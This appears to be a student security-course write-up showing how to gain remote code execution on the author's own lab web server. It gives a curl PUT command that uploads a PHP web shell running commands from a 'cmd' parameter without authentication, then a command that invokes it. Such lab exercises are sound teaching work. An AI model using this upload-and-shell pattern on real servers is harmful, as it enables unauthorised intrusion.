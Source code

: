 # Simon Buchheit - Assignment 5

This document will outline how to reproduce the steps for gaining remote code execution (RCE) on my web server.

### Preconditions 

The following need to be completed before continuing: 

- Ensure the web server is built and running (see _README.md_)
- Ensure the web server is working by navigating to `/index.html` 


### The Exploit

The following steps outline how to achieve RCE on my web server through an arbitrary file upload via the _PUT_ method, combined with _PHP_.

First we need to create our own _PHP_ file. Luckily, the web server will happily allow us to create a new resource via its _PUT_ method.

```bash
curl -X PUT -d "<?php echo(shell_exec(\$_GET['cmd'])); ?>" localhost:9999/shell.php
```

The above `curl` command will write the _PHP_ script to the file `shell.php` in the root directory of the web server. The server does not require any authentication for this to happen. 
**NOTE:** change `localhost:9999` to wherever you have the web server running.

Next we can check to see if our `PUT` worked. The _PHP_ code that we wrote to our `shell.php` file is looking for the `cmd` parameter sent in a `GET` request.

```bash
curl "localhost:9999/shell.php?cmd=ls"
```

Success! We are now able to run commands on the web server! 

Enjoy your new shell!